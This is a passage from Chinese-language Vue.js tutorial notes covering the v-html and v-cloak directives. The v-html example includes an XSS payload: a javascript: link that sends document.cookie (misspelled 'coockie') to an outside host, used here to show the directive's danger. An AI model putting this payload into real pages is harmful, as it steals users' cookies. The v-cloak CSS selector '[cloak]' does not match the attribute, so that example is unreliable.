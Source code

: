 ```html
            <div v-html="str"></div>
            <div v-html="str2"></div>
        </div>
        <script type="text/javascript">
            Vue.config.productionTip = false
        //创建Vue实例
        const x = new Vue({
            el:'#root',
            data:{
                name:'sky',
                str:'<h2>你好啊</h2>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.coockie>点击事件'
            }
        })
        </script>
    </body>
</html>
```



#### 3.v-cloak指令（没有值）:

1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-cloak指令</title>
    </head>
    <body>
        <!-- 准备一个容器 -->
        <div id="root">
            <h1 v-cloak>hello,{{name}}</h1> 
        </div>
        <!-- 引入Vue -->
        <script type="text/javascript" src="../js/vue.js"></script>//假如慢5s
        <script type="text/javascript">
            Vue.config.productionTip = false
        //创建Vue实例
        const x = new Vue({
            el:'#root',
            data:{
                name:'sky'
            }
        })
        </script>
    </body>
    <style>
        [cloak]{
            display: none;
        }
    </style>
</html>
```
